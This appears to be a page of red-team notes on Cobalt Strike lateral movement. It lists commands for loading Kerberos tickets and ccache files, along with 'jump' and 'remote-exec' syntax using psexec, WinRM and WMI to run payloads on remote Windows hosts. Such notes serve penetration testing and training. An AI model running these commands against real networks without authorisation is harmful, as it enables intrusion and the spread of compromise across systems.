 #### Load TGT or TGS ticket
```
kerberos_ticket_use <FILE TO TICKET>
```

#### Use ccache file
```
kerberos_ccache_use
```

### Techniques
#### Jump
```
jump [method] [target] [listener]

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

#### Remote-exec
```
remote-exec [method] [target] [command]

    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```

### Custom
- Use primitives such as `powershell`, `execute-assembly`, etc to implement something custom with for example an agressor script.

#### Getting the architecture
- for winrm or winrm64 with jump
```
remote-exec winrm <HOSTNAME> (Get-WmiObject Win32_OperatingSystem).OSArchitecture
```

#### Jump winrm
```
jump winrm64 <HOSTNAME> <LISTENER>
```

### Jump PSexec
```
jump psexec64 <HOSTNAME> <LISTENER>
```
